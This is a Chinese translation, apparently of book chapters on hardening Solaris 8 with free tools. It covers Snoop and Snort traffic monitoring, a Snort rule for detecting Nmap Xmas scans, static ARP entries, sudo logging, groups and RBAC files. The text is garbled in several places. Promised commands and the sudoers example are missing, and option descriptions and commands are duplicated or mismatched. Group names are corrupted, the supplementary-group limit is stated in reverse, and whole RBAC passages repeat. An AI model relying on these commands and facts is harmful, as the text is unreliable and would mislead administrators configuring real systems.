假设你运行了 `Nmap` 扫描，读取输出并注意到一个系统位于 `IP 10.1.1.90`。参考你的记录，你意识到这个 `IP` 不在我们的动态主机配置协议（`DHCP`）范围内，也没有被分配给任何系统。`Nmap` 报告了一些正常的开放端口，并将其指纹识别为 `Solaris 8` 系统。下一步怎么办？一个地方是查看 `arp` 缓存。这是一个将以太网硬件（`MAC`）地址转换为 `IP` 地址的表。从本质上说，`arp` 是 `OSI` 第 2 层和第 3 层之间的胶水。要查看 `arp` 缓存，执行以下命令之一：


## 使用网络监控检测异常流量

在本节中，我们将查看一些可以帮助理解流量性质的免费工具

### 使用 Snoop

首先，让我们看看 `Solaris` 上最好的工具之一：`Snoop`。`Snoop` 非常强大，值得查看它的某些常用命令和选项：

- `-d <device>` 告诉 `Snoop` 监听哪个设备。对于具有多个接口的系统至关重要。
- `-o <file>` 告诉 `Snoop` 将输出存到 `snoop` 可读的文件。
- `-i <file>` `-o` 的反操作。这回放方式读取 `snoop` 输出。
- `-r` 如果提供该参数，`Snoop` 将不会将 `IP` 地址解析为主机名。防止 `Snoop` 将其自身的流量（`DNS` 查询的形式）加入网络。
- `[expression]` `Snoop` 允许你向它传递表达式，这些表达式由协议、关键字、源、目的和其他原语组成。`Snoop` 的表达式语言是它最大的资产。应该仔细阅读 `man` 手页以全面理解。

`Snoop` 通过将接口设置为混杂模式来从任何运行的接口捕取数据包。通常情况下，接口会忽略任何目的地址与接口自身不匹配的数据包。在混杂模式下，无论数据包的最终目的地如何，接口都会捕获每个数据包的副本。如果你查看 `Snoop` 的 `man` 手页，你可以根据源或目的地址的性质、协议类型、负载类型、以太类型或许多其他标准来限制捕获的数据包。使用简单表达式的 `Snoop` 可以捕获你网络中的流量。例如，假设你想查看离开网络的 `DNS` 查询。执行此简单的 `Snoop` 命令可能如下：

```bash
$snoop -d hme0 -o /tmp/DNSq_snoop.out proto 17 port 53 !
dst net 10.1.1.0
```

我们正在告诉 `Snoop` 使用接口 `hme0` 监听 `IP` 协议 `17` (`UDP`) 端口为 `53` 的流量，并且我们任何目的地不是本地网络的内容。该命令的最后部分是我在本节开头提到的表达式的简单示例。第一个原语是 `proto`，它告诉 `Snoop` 我们将按协议过滤。`17` 是协议号。

# 使用免费安全工具保护 Solaris • 第 3 章

在传输或返回时。我们没有指定，如果你只想检查源点或终点，`Snoop` 将要求你告诉它。"`!`" 是常见的否定操作符，并影响其后的表达式剩余部分。我们使用 `dst` 原语表示目的地，并使用 `net` 关键字告诉 `Snoop` 我们关注整个 `10.1.1.0` 网络。通过在开头使用否定操作符，我们已经告诉 `Snoop` 在捕获和过滤时更具选择性。最后，`-o` 选项告诉 `Snoop` 将数据丢入 `/tmp/DNSq_snoop.out` 文件中。我们稍后可以返回并使用 `-i` 选项将此文件读取到标准输出。通过简单的 `shell` 脚本，我们可以随心所欲地启动和停止 `Snoop`，如果你怀疑在给定时间范围内发生了某些异常行为，这会非常有用。

### 使用 Snort

`Snoop` 尽管功能强大，但它简单无法替代良好的嗅探器或入侵检测系统。在本文写作时，`Snort` 版本为 `1.8`，它是实现此目的的极佳（且免费）的工具。由于 `Snort` 是基于规则的，管理员可以轻松将其适配到特定的网络或一组网络。我们可以在 `www.snort.org` 找到 `Snort`、规则文件、文档和讨论板。我强烈建议你花时间阅读所有文档，理解发布版本以及 `alpha` 和 `beta` 特性。

我们将查看 `Snort` 的使用及其许多选项中的若干几个。从最简单的意义上说，可以像这样启动 `Snort`：

```
%snort
```

只有当你执行 `Snort` 且在主目录中有一个规则文件时，这种方法才起作用。我们想让 `Snort` 更有用，我们将学习以下命令行选项：

- `-c <dir>` 这告诉 `Snort` 查找其配置文件。在 `1.8p1` 版本中，`Snort` 的配置文件（默认名为 `snort.conf`）会加载规则以供使用。
- `-b` 以 `tcpdump` 实用程序的格式生成日志文件。这种记录方式更快，并有助于 `Snort` 跟上流量饱和的网络（即使是 `100Mbit/FDX`）。
- `-l <dir>` `Snort` 存放所有日志的目录。
- `-d` 倾储嗅获数据包的应用层（如果有）。这在检查或重放攻击或流量流时非常有用。


- `-d` 使用此将 Snort 作为守护进程运行。
- `-A <word>` 这告诉 Snort 生成告报，以及生成的级别。可选单词有 `fast`、`full`、`console` 或 `none`。先从 `full` 开始，根据需要缩减。

你需要获取 Snort 的源代码。下载、解压并编译源码。该包具有极大的灵活性，从你安装二进制文件和配置文件的位置，到日志和告报通知的范围和位置均如此。Snort 的核心是一系列规则和配置文件。从 1.7 版本开始，Snort 使用主配置文件 `snort.conf`。在 `snort.conf` 中，管理员定义本地子网（或多个），设置预处理器来处理 HTTP 请求和 TCP 分段等问题，并定义网络上的通用服务器，如 Web、邮件和数据库服务器。每个定义将在规则中起到某些作用，告诉 Snort 哪些流量被视为恶意，以及哪些看似恶意的流量实际上对你的网络是良性且可接受的流量。配置文件以一系列 `include` 语句结束，告诉 Snort 使用哪些规则以及忽略哪些规则。此功能的优之处在于，我们可以为各种类的漏洞编写各种规则并将其写入单独的文件。这使得规则的管理、更新和调试变得极其简单无痛苦。理解规则本身的最好方法是从一个简单的示例开始：

```
alert tcp $EXTERNAL_NET -> $HOME_NET any
(msg:"SCAN NMAP Xmas";flags:FPU);
```

第一个关键字 `alert` 告诉 Snort，如果匹配到此项，`$EXTERNAL_NET` 语句位于 `snort.conf` 文件中，默认值为 `any`，意味着任何网络。第一个 `any` 关键字指的是此流量的源。在这种情况下，我们对所有端口感兴趣。`->` 命名法指示源和目的，并且具有非常重要的意义。在这个示例中，我们关注从 `EXTERNAL_NET` 到我们 `HOME_NET` 的流量。由于方向标识符的存在，从我们的 `HOME_NET` 到 `EXTERNAL_NET` 的流量将不会匹配此规则。下一个 `any` 语句指的是我们本地网络上的目的端口。同样，我们对任何端口感兴趣。`msg` 字符串是要将与 Snort 生成的告报一起放置在日志文件中的纯 ASCII 文本。在这种情况下，该字符串告诉我们我们正在寻找 NMAP Xmas 扫描。`flags` 关键字告诉 Snort 我们对 TCP 标志 `F(IN)`、`P(USH)` 和 `U(RG)` 感兴趣。我们还可以扫描其他标志 `S(YN)`、`R(ST)` 和 `A(CK)`。

Snort 的另一个主要优势是其编写规则的灵活性。Snort 存在大量的规则集可开箱即用，任何管理员都能在几分钟内轻松掌握 Snort 规则的语法和结构。凭借 Snort 基于 IP、TCP、UDP 和 ICMP 参数（仅举几个）追踪和跟踪流量的能力，几乎一切皆有可能。如果你有本地 SQL 数据库，Snort 插件允许你将其记录到 SQL 数据库。

关于 Snort（或任何其他入侵检测系统）的一个合理担忧是它跟上网络流量流的能力。在 100 Mbit/s 全双工链路上，较小和较旧的机器将开始丢失或丢弃数据包。这种行为一直以来都是不可接受的。如果攻击者用无害流量泛洪网络以隐藏攻击会怎样？结果可能是灾难性的。幸运的是，Snort 具有作者所的高模式。启动 Snort 时，你可以发布以下命令以在这种模式下运行 Snort：

```
%snort -b -A fast -c snort.conf
```

在这种模式下，Snort 将其所有捕获内容和日志写入二进制格式的文件。当你想要查看捕获和记录的信息时，你可以像这样再次运行 Snort 来处理日志文件：

```
%snort -b -A fast -c snort.conf
```

## 保护 Solaris 免费安全工具 • 第 3 章

一旦系统接入网络，你就需要安装 Snort 并配置文件。此时，你可能对系统采取一些额外的预防措施。如果它嗅探了你所有的流量，任何破坏都可能导致这个宝贵的工具离线，并可能向任何乐于挖掘日志文件的入侵者泄露你网络流量的秘密。我建议在使用 Snort 时带有 `-s` 开关。这将导致 Snort 将其信息记录到系统日志 中。如果你有一个网络日志系统，你可能希望将 Snort 的日志输出指向该系统。这样，即使你的嗅探器被破解，入侵者也无法删除或查阅 IDS 日志。

你可能还想为系统生成一组静态 ARP 条目供其学习和发布。假设你的系统位于防火墙之后，与你的 Web 服务器和邮件服务器处于同一网段。我们之前讨论过的 ARP 缓存中毒会导致各种网络混乱。最糟糕的是，由于源和目的地最初是基于硬件地址而非 IP 地址，Snort 可能会被欺骗，忽略掉表面上 IP 地址匹配规则的流量，而实际上流量正发向一个脆弱的目标。你会在系统上生成一个 `/etc/ethers` 文件并进行相应的填充：

| 10.1.1.30 | 08:00:29:f1:cc:66 | pub |

| 10.1.1.31 | 08:00:20:a8:99:14 | pub |

`pub` 关键字告诉系统该 ARP 条目是待发布的，任何针对 10.1.1.30 或 10.1.1.31 IP 地址的 ARP 请求都将触发本地系统的响应。你使用 `arp` 命令将此信息放入本地 ARP 缓存中：

```bash
%arp -f /etc/ethers
```

操作就此结束了，你已经在保护自己免受二层恶意行为的影响方面迈出了一大步！

为了格外小心，你应该安装 SSH 并禁用系统上的所有其他服务，包括 RPC 服务。由于这是一个专用的网络嗅探器，该系统在你的网络中没有其他合法的角色，因此不需要运行 SSH 和 Snort 之外的任何软件。为了谨慎到偏执的地步，你还可以剪断从系统到交换机或集线器的 4 类以太网线的传输线。这意味着你将无法从系统接收数据，因此 SSH 将失效，且 syslog 日志记录将正常工作，但由于 Snort 只对接收流量感兴趣，半根电缆可以正常工作。请记住，某些网络硬件如果电缆中只有部分布线正常，将无法建立二层链路。


你需要向供应商核实，确保这种技巧不会阻止硬件级链路的建立。

## 使用 Sudo

为了让系统能够作为有效的网络嗅探器和流量分析器，某些程序和进程需要超级用户权限运行。随着过去几年远程可利用缓冲区溢出的漏洞出现，任何系统管理员都知道，让软件以 root 身份运行（带有 root 用户固有的所有权限和权利）在最好的情况下也是危险的。除了基于 root 的安全考虑外，许多组织还需要为某些用户授予少量软件及相关命令的超级用户权限。我们经常遇到的是数据库和 Web 管理员。然而，随着网络安全重要性的增加，典型企业安全的规模也在不断扩大。

Sudo 不是一个命令开关选项，但它有几个命令开关。我们当前任务感兴趣的选项是：

- `-l` 列出用户允许和禁止的命令。
- `-v` 验证用户的时间戳字段并延长超时时间。正如我们在下文中看到的，当你使用 Sudo 时，一旦输入登录密码，计时器就会启动。当此计时器过期（默认 300 秒），后续任何使用 Sudo 权限的操作都需要重新输入密码。
- `-k` 标记时间戳。杀掉你的 Sudo 计时器。
- `-b` 告诉 Sudo 在后台运行命令（如果你正准备启动批作业之类的，这很有用）。

虽然我们还没有使用这些开关的大部分，但当你将在 Solaris 环境中部署 Sudo 时，它们将得到充分的。现在，为什么我们使用 sudo 而不是直接使用 su 呢？

团队的一个问题是，每个成员都有特定的专长。与这些专长相关的职责性能，特别是关于网络和系统级的责任，通常需要在许多系统拥有拥有超级权限。最简单的解决方案（也是最危险的解决方案）是给每个人 root 密码并希望不要发生任何错误。拥有 root 密码的人越多，


你的密码以及你的系统被盗用、误用和篡改的可能性就越大。

我们幸运地有一个名为 Sudo 的强大工具。该工具允许管理员向用户或用户组授予 root 权限。此外，如果普通账户被破解，损害将降最低。我们需要配置 sudoers 文件，例如：

```bash
## sudoers file
#
# 此文件必须使用 'visudo' 命令进行编辑。
```

## 3 使用免费安全工具移除 Solaris 的根权限

## 第 3 章 • 使用免费安全工具保护 Solaris


我们定义主机名、日志级别和日志位置，然后定义用户或用户组。接下来我们为命令设置别名（在本例中启动和停止 Web 服务器的脚本），然后定义我们的用户组以 root 身份执行的命令别名。这个工具确实简单，但配置选项如此先进，胜任的人员可以执行所有系统功能而无需共享 root 密码。在系统可能托管典型应用程序以及安全软件的情况下，这种环境是无价的。为了让我们的用户 `djackson` 和 `tealc` 启动或停止 Web 服务器，他们将执行命令：

```bash
%sudo
```

然后系统会提示他们输入自己的用户密码。从现在起，Sudo 听候差遣，但仅限于该用户或用户组被明确允许运行的预配置命令。对于 Sudo 用户来说，一个有用的功能是 `-l` 开关；它将列出用户可以执行的命令以及

# 保护 Solaris 免费安全工具 · 第3 章

他们执行这些工具时所需的权限。如果用户未列在 `/etc/sudoers` 文件中，将看到图 3.4 所示的响应。

## 图 3.4 未列在 /etc/sudoers 文件中的用户的结果



果不其，如果我们检查 `/var/log/sudo.log` 文件（记住，我们在 `/etc/sudoers` 配置文件中指定了此位置），我们会看到这样的一条记录：

```
Jul 21 18:03:31 2001 : tealc : user NOT in sudoers ; TTY=pts/1 \
PWD=/home/tealc ; COMMAND=/usr/bin/kill -HUP 167
```

该用户缺乏以 root 身份运行 `kill` 命令的授权。在这种情况下，他可以登录并检查进程 ID，以更好地了解该用户在做什么。

有时，会有人过来理所当然地使用 `sudo` 执行特权命令。突然，系统可能开始出现异常，Web 服务器可能停止接收连接，或者人们可能无法 FTP 进入系统。一旦你发现并纠正了问题，你就会想找出是谁搞的鬼，以便你可以找到他们并慷慨地教他们适当的程序和策略。在上面，我们将 Sudo 日志的位置设置为 `/var/log/sudo.log`。现在，假设我们收到一个页面并发现 `www.incoming-traveller.com` 不接受 HTTP 连接。我们登录并发现服务器没有运行。我们迅速启动服务器，然后查找失败原因。让我们先检查 `sudo.log` 文件。在日志末尾，我们看到了以下内容：

```
Jul 21 10:34:05 2001 : tealc : TTY=pts/1 ; PWD=/home/tealc \
USER=root\
;COMMAND=/usr/local/scripts/http-server/stop
```

# 第3 章 • 使用免费安全工具保护 Solaris

我们的 Web 管理员之一，用户 `tealc` 远程登录并执行了 Web 服务器的脚本。我们看到他在上午 10:34 从 `pts/1` 运行了命令，这意味着他是远程登录的。用户从他的主目录运行了命令（如 `PWD..` 行所示），且命令是以 root 用户权限运行的。这是该文件中的最后一条记录。该用户从未运行过重启服务器的命令。现在我们知道从哪里开始了。始终要与用户接触，并给他们疑点之机。据我们所知，这可能是任何简单的错误，也可能是账户被攻破的证据。

去 `tealc` 的工位快看一看，发现一名工人正沉浸于一个重要的电话通话中。通话结束后，你询问了 Web 服务器的情况，并见证了那个著名的“聚光灯下的鹿”表情。事实是用户对配置文件做了一些更改，并打算停止并重启服务器，但在那发生之前，一个重要的业务电话打了进来。一切正常，友善地提醒一下在重启服务器软件时要彻底完成，这让你和用户的心情都比较愉快。日志派上了大用场，因为你知道该找谁，而且你有证据，以防用户说“绝对不是我，老实说！”有时候，一点硬证据就能让人们承认并纠正错误。

保护 Solaris 免费安全工具 • 第3 章

## 总结

Nmap 和 Sudo 是保护系统和保持其安全的关键。可以将 Nmap 视为一种保护 Solaris 8 系统免受自身攻击的手段，将 Sudo 视为一种保护 Solaris 8 系统免受用户侵害的方法。

## 常见问题

以下常见问题由本书作者解答，旨在增强你对本章所介绍概念的理解，并帮助你在现实生活中实现这些概念。如需让作者解答你对本章章的问题，请访问 `www.syngress.com/solutions` 并点击“Ask the Author”（向作者提问）表单。

问：端口扫描会对我的网络安全产生负面影响吗？

答：这取决于情况。99.999% 的系统不会受到端口扫描的任何负面影响。某些操作系统的惯性协议栈中存在漏洞，端口扫描可能会利用这些漏洞，但大多数厂商早已修复了这些漏洞。

问：什么是 ARP？它为什么重要？

答：ARP 代表地址解析协议（Address Resolution Protocol），它是系统用于将 IP 地址转换为硬件（MAC）以太网地址的手段。如果没有 ARP，除非存在 `/etc/ethers` 文件（该文件静态地将 IP 映射到 MAC 地址），否则网络将无法运行。ARP 最大的问题是该协议中不涉及任何类型的认证。任何系统都可以为给定的 IP 发布硬件地址，而其他系统没有能力验证验证者的身份或完整性。

问：我在哪里可以找到免费的安全工具？

答：Nmap 位于 `www.insecure.org`，Snort 位于 `www.snort.org`。Sudo 可以从多个地方获取，最快的是 `www.sunfreedom.com`。务必从信任且可验证的来源获取此类软件。编译此软件的后门版本并部署将是一个非常糟糕的主意。请检查并验证软件的 MD5 校验和。如果它们不匹配，请通知站点管理员并获取干净版本。

问：我应该什么时候运行网络扫描？

答：我建议在两个不同的期间运行扫描。首先，在晚上运行，此时网络上没有人使用。这可以最大限地减少由扫描器产生的额外流量开销。此外，在正常工作时间内运行扫描，以感受你网络的真实工作环境。如果担心流量，请在 Nmap 的简单模式下运行，例如 `ping-only` 或 `tcp-connect`。改变时间并尽可能分散扫描，以避免落入可被检测的模式。



**问：我安装了 Snort，它生成的日志巨大，告报文件充满了数据。我的磁盘空间几乎用光了。我该怎么办？**

**答：仔细检查告报和日志文件。你是否捕获到了网络内部的 ping、ICMP 端口/主机不可达等内容？在正常工作时间内，ping 经常在网络中（尤其是带有 DHCP 服务器的网络）像疯了一样到处传输。检查你的日志，更重要的是，检查你的规则是否适用于你的网络。默认情况下，Snort 目前使用 *any* 作为其规则匹配的源。这意味着外部和内部流量都会匹配。如果你只关心外部流量，请按照 Snort 配置文件中描述的那样，将 *any* 改为 `$HOME_NET`。


## 第 4 章

## 保护你的用户

本章的解决方案：

- 创建安全组成员关系

- 理解 Solaris 用户身份认证

- 使用 NIS 和 NIS+ 验证用户身份

- 使用 Kerberos 验证用户身份

- 使用可插拔认证模块 (PAM) 验证用户身份

- 总结

- 解决方案快速通道

- 常见问题

## 引言

用户认证是任何操作系统中最关键的部分。正确且安全地识别用户、拒绝不属于系统的用户、记录失败的访问尝试以及在新威胁出现时修订系统的能力，是系统安全的基石。

Solaris 提供了一系列强大、灵活的认证和信息系统，能够处理几乎任何情况。网络信息服务（NIS）作为网络信息的通用语言，允许 Solaris 在可能由许多其他类型 UNIX 系统组成的网络中作为认证数据的服务器或客户端参与。它的后代 NIS+ 提供了更高的安全性、针对极大型网络的更好的性能，以及更细粒度的访问控制。Kerberos 提供了一个安全、强大的认证框架。Kerberos 旨在解决网络窃听的关键问题，同时提供单点登录的便利性。Sun 企业级认证机制（Sun Enterprise Authentication Mechanism）允许 Kerberos 的于部署和配置，并与现有的 MIT 密钥发行中心互操作。

最近，Solaris 采纳了两项重要技术，进一步推动了系统的安全性和活性。基于角色的访问控制系统允许管理员定义特定任务，然后将这些任务委托给个人或组。这允许分发常规维护任务，而不会产生广泛持有 root 密码的固有风险。

可插拔认证模块（PAM）首次随 Solaris 2.6 版本引入 Solaris。PAM 允许管理员精调认证过程。通过使用公开的 PAM 模块，可以快速地将传统的基于密码文件的系统替换为其他认证资源，例如 LDAP、Radius、SMB、TACACS、S/key 或 SecURL。与之前的解决方案相比，PAM允许某些服务以特殊方式进行认证，而其他服务则使用传统手段。


在本章中，我们将提供创建新组并向新创建的组委托有限特权操作的示例。我们将讨论 NIS 和 NIS+ 的安全风险以及如何最小化减少这些风险。我们将对经常被误解的 Kerberos 进行一些介绍。然后，我们将讨论 PAM 的优点，介绍 `pam.conf`，以及如何使用此技术保护你的主机的几个示例。

## 创建安全组成员关系

在首次安装时，Solaris 会设置若干组。某些组供系统工具使用，某些组是为了更好地控制安全，另一些则是旧时代的遗留。本节将讨论这些组的性质，并说明如何创建新组。稍后，我们将看到如何使用 Solaris 8 的新功能将某些维护任务委托给新组成员。表 4.1 列出了重要组及其目的。

### 表 4.1 重要组

| 组名 | 目的 |
|---|---|
| root | 类似于 BSD（Berkeley软件发行）中的 wheel 组，root 组用于识别特权用户。 |
| other | Solaris 中 root 的主组。 |
| mail | 许多系统工具被设置为 mail 以写入邮件队列和生成目录。BSD 系统曾使用一种依赖设置-GID 生成目录的告锁锁定方案。 |
| tty | 通常用于赋予设置-GID wait 命令对 tys 的写权限。 |
| daemon | 出于安全考虑，许多系统进程在启动后不久会将 root 权限降为 daemon。 |
| sysadmin | 只有此组成员才能运行 Solaris 管理工具 Admool。 |
| sucp | UUCP 常见时代的遗留。某些系统工具使用 uucp 组进行访问控制并写入某些生成或锁定目录。cu、uucp、uucencode 和 uudecode 的 GID 为 uucp。 |

以一个典型的 `/etc/group` 条目为例：

```
tty:7:root,tty,adm
```

与 UNIX 认证和授权中使用的平面文件一样，字段由冒号分隔。第一个字段是组名。第二个字段（在本例中为空）是组密码。组密码是一个过时的概念。最初，在多组成员成为 UNIX 操作系统的常见功能之前，用户可以使用 `newgrp` 命令来启动具有不同组员权限的 shell。组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 `jackson` 和 `tealc` 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


# 第 4 章 · 保护您的用户

## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 root 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 root、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc

auths: tealc: No authorizations

# roles tealc

roles: tealc: No roles
```


# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 `GID`。与 `UID` 一样，`GID` 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 `NIS` 系统上创建新组非常简单。如果你正在使用 `NIS`，请务必在 `NIS` 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 `GID`，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 `GID` 留给特定的系统功能使用。重用这些 `GID` 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 `GID` 通常保留给系统使用，60,000 以上的 `GID` 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 `NIS` 映射的尝试可能会失败。

假设您的两个用户 `"jackson"` 和 `"tealc"` 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 `NIS` 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (`RBAC`)。熟悉 `sudo` 实用程序的系统管理员应该认为 `RBAC` 易于使用。`RBAC` 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 `root` 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，`RBAC` 允许委托某些特定的任务。

`RBAC` 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（`profiles`）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 `UID`。通过这种方式，`RBAC` 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```


第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

